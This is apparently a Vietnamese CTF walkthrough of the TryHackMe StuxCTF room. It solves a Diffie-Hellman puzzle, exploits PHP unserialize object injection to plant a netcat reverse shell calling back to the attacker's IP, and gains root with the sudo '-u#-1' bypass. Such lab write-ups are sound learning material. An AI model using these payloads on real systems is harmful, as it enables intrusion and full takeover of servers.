

Xin chào, dạo này bận quá nên bây giờ tôi mới quay lại làm CTF được. Hôm nay tôi sẽ trở lại với 1 CTF mức Easy [Tryhackme - StuxCTF](https://tryhackme.com/room/stuxctf)

## Reconnaissance

Vẫn như thông thường, việc đầu tiên là quét các cổng đang mở trên máy chủ mục tiêu.

```python
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 7.2p2 Ubuntu 4ubuntu2.8 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   2048 e8:da:b7:0d:a7:a1:cc:8e:ac:4b:19:6d:25:2b:3e:77 (RSA)
|   256 c1:0c:5a:db:6c:d6:a3:15:96:85:21:e9:48:65:28:42 (ECDSA)
|_  256 0f:1a:6a:d1:bb:cb:a6:3e:bd:8f:99:8d:da:2f:30:86 (ED25519)
80/tcp open  http    Apache httpd 2.4.18 ((Ubuntu))
| http-robots.txt: 1 disallowed entry 
|_/StuxCTF/
|_http-title: Default Page
|_http-server-header: Apache/2.4.18 (Ubuntu)
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel
```

Thử vào web với port 80, không có gì ngoài 2 chữ `is blank`, nhưng khi tôi kiểm tra source web thì mới có vài thứ hay ho.

```python
<html>
	<head>
		<title>Default Page</title>
	</head>
	<body>
		<!-- The secret directory is...
		p: 9975298661930085086019708402870402191114171745913160469454315876556947370642799226714405016920875594030192024506376929926694545081888689821796050434591251;
		g: 7;
		a: 330;
		b: 450;
		g^c: 6091917800833598741530924081762225477418277010142022622731688158297759621329407070985497917078988781448889947074350694220209769840915705739528359582454617;
		-->
		is blank....
	</body>
</html>
```

Có vẻ như đây là một dạng thuật toán nào đó, nhưng vì chưa có gợi ý nào nên tôi sẽ quay lại với nó sau.

Tiếp theo thì vào */robots.txt* 


Khi truy cập thử vào */StuxCTF/* thì web báo không tìm thấy path này. Dừng khoảng chừng là 2s thì tôi để ý thấy _*Diffie_Hellman*_, nghe giống 1 cái tên. Thử tìm kiếm nó trên mạng và hóa ra đây là tên 1 phương pháp trao đổi khóa, nó ở [đây](https://vi.wikipedia.org/wiki/Trao_%C4%91%E1%BB%95i_kh%C3%B3a_Diffie-Hellman)

Sau khoảng vài tiếng thông não thuật toán và thêm phần *hint* trong CTF thì tôi cũng tìm tính được ra khóa đặc biệt cuối cùng. Cũng ở trong phần *hint*, độ dài của directory là 128 ký tự đầu nên khi in ra màn hình tôi sẽ chuyển kết quả về dạng string và chỉ lấy 128 ký tự đầu. Sử dụng `python` thì nó sẽ như thế này:

```python
p = 9975298661930085086019708402870402191114171745913160469454315876556947370642799226714405016920875594030192024506376929926694545081888689821796050434591251
g = 7
a = 330
b = 450
gc = 6091917800833598741530924081762225477418277010142022622731688158297759621329407070985497917078988781448889947074350694220209769840915705739528359582454617

gca = (gc**a) % p
gcab = (gca**b) % p

print (str(gcab)[:128])
```

Truy cập web với path là kết quả vừa tìm được.


Lại thử kiểm tra source web xem có hint nào nữa không


`<!-- hint: /?file= -->`

Với hint này thì khả năng cao là [PHP LFI](https://github.com/qazbnm456/awesome-security-trivia/blob/master/Tricky-ways-to-exploit-PHP-Local-File-Inclusion.md) exploit. Tôi sẽ dùng *BurpSuite* để sửa request dễ hơn. Sau 1 lúc thử các kiểu LFI đều không có kết quả, tôi nhận ra mình đã hiểu sai hint này. Với PHP LFI tôi phải để *index.php* ở đầu và sau đó là */?file=*, nhưng thực ra trong hint không đề cập đến *index.php* nên path sẽ chỉ có */?file=* và tên file đằng sau


Sao chép đoạn hex này vào [CyberChef](https://gchq.github.io/CyberChef/) và tôi có 1 đoạn mã trông giống base64 nhưng bị đảo ngược vì dấu = xuất hiện ở đầu đoạn mã chứ không phải phần đuôi như thông thường.

Sau khi dịch ngược đoạn base64 và giải mã thì tôi sẽ có source của *index.php*

```python
<br />
error_reporting(0);<br />
class file {<br />
        public $file = "dump.txt";<br />
        public $data = "dump test";<br />
        function __destruct(){<br />
                file_put_contents($this->file, $this->data);<br />
        }<br />
}<br />
<br />
<br />
$file_name = $_GET['file'];<br />
if(isset($file_name) && !file_exists($file_name)){<br />
        echo "File no Exist!";<br />
}<br />
<br />
if($file_name=="index.php"){<br />
        $content = file_get_contents($file_name);<br />
        $tags = array("", "");<br />
        echo bin2hex(strrev(base64_encode(nl2br(str_replace($tags, "", $content)))));<br />
}<br />
unserialize(file_get_contents($file_name));<br />
<br />
<!DOCTYPE html><br />
    <head><br />
        <title>StuxCTF</title><br />
	<meta charset="UTF-8"><br />
        <meta name="viewport" content="width=device-width, initial-scale=1"><br />
        <link rel="stylesheet" href="assets/css/bootstrap.min.css" /><br />
        <link rel="stylesheet" href="assets/css/style.css" /><br />
    </head><br />
        <body><br />
        <nav class="navbar navbar-default navbar-fixed-top"><br />
          <div class="container"><br />
            <div class="navbar-header"><br />
              <button type="button" class="navbar-toggle collapsed" data-toggle="collapse" data-target="#navbar" aria-expanded="false" aria-controls="navbar"><br />
                <span class="sr-only">Toggle navigation</span><br />
              </button><br />
              <a class="navbar-brand" href="index.php">Home</a><br />
            </div><br />
          </div><br />
        </nav><br />
        <!-- hint: /?file= --><br />
        <div class="container"><br />
            <div class="jumbotron"><br />
				<center><br />
					<h1>Follow the white rabbit..</h1><br />
				</center><br />
            </div><br />
        </div>            <br />
        <script src="assets/js/jquery-1.11.3.min.js"></script><br />
        <script src="assets/js/bootstrap.min.js"></script><br />
    </body><br />
</html><br />
```

Lướt qua source này, tôi để ý có 1 function có thể khai thác được, đó là *unserialize*. Lỗi này liên quan đến dữ liệu đầu vào mà người dùng nhập không được kiểm duyệt trước khi đến hàm *unserialize* từ đó có thể cho phép thực hiện RCE

Đọc thêm: [PHP Object Injection](https://owasp.org/www-community/vulnerabilities/PHP_Object_Injection)

Đầu tiên, tôi tạo 1 file php với nội dung dùng để tạo 1 file php khác có chứa payload. Sau đó dùng php để chuyển nó thành file txt. Sau khi tải file text này lên web server, đi qua hàm *unserialize*, nó sẽ phân giải nội dung thành file php và thực thi câu lệnh bên trong file đó. Theo tôi hiểu thì là như vậy :anguished: Hi vọng tôi không hiểu sai.

File php được tạo sẽ trong như thế này

```php
<?php
class file
{
        public $file = 'test.php';
        public $data = '<?php shell_exec("nc -e /bin/bash 10.18.3.74 9001"); ?>';
}
echo (serialize(new file));

?>
```

Sau đó sử dụng php để chuyển file này thành text 

```python
┌──(neo㉿kali)-[~]
└─$ php serialize.php > test.txt

┌──(neo㉿kali)-[~]
└─$ cat test.txt                
O:4:"file":2:{s:4:"file";s:11:"test.php";s:4:"data";s:55:"<?php shell_exec("nc -e /bin/bash 10.18.3.74 9001"); ?>";} 
```

Tiếp theo tạo local http server bằng python

```python
┌──(neo㉿kali)-[~]
└─$ python -m http.server                                                                               
Serving HTTP on 0.0.0.0 port 8000 (http://0.0.0.0:8000/) ...
```

Sau đó thực hiện request lấy file *test.txt* về server. Tôi dùng *BurpSuite*



Tuy web hiện *File no Exist!* nhưng khi kiểm tra lại http server thì tôi thấy file đã được tải lên

```python
┌──(neo㉿kali)-[~]
└─$ python -m http.server                                                                               
Serving HTTP on 0.0.0.0 port 8000 (http://0.0.0.0:8000/) ...
10.10.249.167 - - [22/Sep/2022 23:03:57] "GET /test.txt HTTP/1.0" 200 -
```

Tạo listener với port 9001 `nc -lnvp 9001`

Thử truy cập vào file *test.php*

```python
┌──(neo㉿kali)-[~]
└─$ nc -lnvp 9001
listening on [any] 9001 ...
connect to [10.18.3.74] from (UNKNOWN) [10.10.107.75] 44226
id
uid=33(www-data) gid=33(www-data) groups=33(www-data)
```

config lại shell với python 

```python
python3 -c 'import pty;pty.spawn("/bin/bash")'
www-data@ubuntu:/$ export TERM=xterm
www-data@ubuntu:/$ 
```

Và sau đó tôi tìm thấy *user flag* trong thư mục user *grecia*

```python
www-data@ubuntu:/$ ls /home
grecia
www-data@ubuntu:/$ ls /home/grecia/
user.txt
```

## Privilege escalation

Vì không có manh mối nào để tìm ra password của user *grecia* nên tôi sẽ thử tìm các file chạy dưới quyền root

```python
www-data@ubuntu:/$ find / -type f -perm -u=s 2>/dev/null
/usr/lib/dbus-1.0/dbus-daemon-launch-helper
/usr/lib/openssh/ssh-keysign
/usr/lib/eject/dmcrypt-get-device
/usr/bin/passwd
/usr/bin/gpasswd
/usr/bin/vmware-user-suid-wrapper
/usr/bin/sudo
/usr/bin/chsh
/usr/bin/chfn
/usr/bin/newgrp
/bin/ping
/bin/umount
/bin/ping6
/bin/fusermount
/bin/mount
/bin/su
www-data@ubuntu:/$
```

Không có gì đặc biệt lắm. Tôi thử kiểm tra phiên bản *sudo* 

```python
www-data@ubuntu:/$ sudo -V
Sudo version 1.8.16
Sudoers policy plugin version 1.8.16
Sudoers file grammar version 45
Sudoers I/O plugin version 1.8.16
www-data@ubuntu:/$
```

Phiên bản này có dính lỗi [Security Bypass](https://www.exploit-db.com/exploits/47502)

```python
www-data@ubuntu:/$ sudo -u#-1 /bin/bash
root@ubuntu:/# id
uid=0(root) gid=33(www-data) groups=33(www-data)
root@ubuntu:/# ls /root
root.txt
root@ubuntu:/# 
```

## Tổng kết

Qua bài này, tôi biết thêm về một phương pháp trao đổi khóa, tuy nó đã lỗi thời và có thể giải được bởi những người nghe lén, nhưng nó vẫn được phát triển và có nhiều biến thể an toàn hơn trong truyền thông tin. Ngoài ra, tôi cũng biết thêm một lỗ hổng của PHP với hàm *unserialize*, lợi dụng thiết lập đầu vào không an toàn để thực thi RCE.
